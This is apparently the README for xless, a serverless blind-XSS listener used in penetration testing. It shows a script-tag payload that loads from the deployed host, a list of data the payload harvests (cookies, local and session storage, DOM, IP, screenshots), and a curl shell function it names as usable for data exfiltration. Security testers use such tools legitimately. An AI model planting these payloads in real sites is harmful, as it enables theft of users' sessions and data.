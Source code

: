 <h1 align="center">
  <br>
  <a href="https://github.com/mazen160/xless"><img src="https://user-images.githubusercontent.com/29874489/58731472-4f6c8080-83de-11e9-8206-992f4d777fdc.png" alt="Xless"></a>
  <br>
  xless
  <br>
</h1>

<h4 align="center">The Serverless Blind XSS App</h4>

<p align="center">
  <img src="https://img.shields.io/maintenance/yes/2021.svg?style=flat-square" alt="Maintained" />
  <img src="https://img.shields.io/bitbucket/issues-raw/mazen160/xless.svg?style=flat-square" alt="Issues" />
  <img src="https://img.shields.io/github/last-commit/mazen160/xless.svg?style=flat-square" alt="Last Commit" />
</p>

## :information_source: About The Project
**Xless** is a serverless Blind XSS (bXSS) application that can be used to identify Blind XSS vulnerabilities using your own deployed version of the application.
There is no need to run a full deployment process; just setup a [vercel.com](https://vercel.com/) account and run `bash deploy.sh`.
That's it. You now have a fully-running Blind XSS listener that uses Slack to notify you for callbacks.

## :warning: Requirements
* [vercel.com](https://vercel.com/) account: Vercel provides a **free plan** for serverless. If you use another provider for serverless, code changes should be minimal.
* Slack Incoming Webhook URL.
* IMGBB (free) Account and API key - for the screenshots.


## :rocket: Deployment
1. Run `bash deploy.sh`

```bash
$ bash deploy.sh

> Deploying ~/xless under X
> https://custom-xless-deployment.vercel.app [v2] [in clipboard] [4s]
> Success! Deployment ready [4s]
```
2. Use the URL for blind XSS testing :fire:

**Xless will automatically serve the XSS payload, collect information, and exfiltrate it into your serverless app, which is then sent right to you in Slack.**


## :speech_balloon: Example Payload

```html
<script src="https://custom-xless-deployment.vercel.app"></script>
```


## :eyes: Demo
![Demo](https://raw.githubusercontent.com/mazen160/public/master/static/images/xless-screenshot.png)


## :incoming_envelope: Collected Data

* Cookies
* User-Agent
* HTTP Referrer
* Browser DOM
* Browser Time
* Document Location
* Origin
* LocalStorage
* SessionStorage
* IP Address
* Screenshot

## :satellite: Out-of-Band (OOB) Callbacks Listener

Xless also works as an OOB (Out-of-Band) callbacks listener for HTTP/HTTPS requests. Any HTTP GET request that is sent to non-parent path will be alerted.

## :eyes: Demo

```bash
$ curl https://custom-xless-deployment.vercel.app/callback-canary
```

![OOB CallBack Listener Demo](https://raw.githubusercontent.com/mazen160/public/master/static/images/xless-screenshot-oob-callback-example.png)

Or anything random, such as:

```bash
$ curl https://custom-xless-deployment.vercel.app/88bf0ecd
```


## :man_health_worker: Health Check
Xless provides a `/health` endpoint to let you know that everything is configured correctly.
The current tests are the existance of the API keys and a successful image upload to IMGBB.

##  Example Blind XSS payloads

You can view a number of handy XSS payloads for your xless app at `$URL/examples`
* URL: `https://custom-xless-deployment.vercel.app/examples`
Once you deploy your app, you can find the examples there.

## :envelope_with_arrow: Scriptable Messages

You can use Xless to send direct messages to your listener. It can be useful in data exfiltration or as a scriptable way to send messages and alerts to your Slack app.

```shell
# on your (bashrc / zshrch) file:
function xless() {
  curl -s https://custom-xless-deployment.vercel.app/message --data "text=$1"
}
```


## Contribution
Contribution is very welcome. Please share your ideas by Github issues and pull requests.

Here are some ideas to start with:
1. ~~Enabling sharing of page screenshot~~.
2. ~~Scriptable message~~.
3. _Your idea of a new feature_?


## Acknowledgement

* [Matthew Bryant](https://github.com/mandatoryprogrammer) for the XSS Hunter project.
* [Rami Ahmed](https://twitter.com/rami_ahmad) for the "xless" name idea.
* [Damian Ebelties](https://twitter.com/DamianEbelties) for the logo.
* [Rotem Reiss](https://twitter.com/2rs3c) for the screenshot feature.
* [Vercel.com](https://vercel.com/) for operating a great serverless platform.

## Awesome Similar Projects

* [Azure-xless](https://github.com/dgoumans/Azure-xless): An Xless implementation for Microsoft Azure Function by [Daan Goumans](https://twitter.com/daangoumans).


## Legal Disclaimer
This project is made for educational and ethical testing purposes only. Usage of xless for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program.


## License
The project is currently licensed under MIT License.

## Author
*Mazin Ahmed*
* Website: [https://mazinahmed.net](https://mazinahmed.net)
* Email: mazin [at] mazinahmed [dot] net
* Twitter: [https://twitter.com/mazen160](https://twitter.com/mazen160)
* Linkedin: [http://linkedin.com/in/infosecmazinahmed](http://linkedin.com/in/infosecmazinahmed)
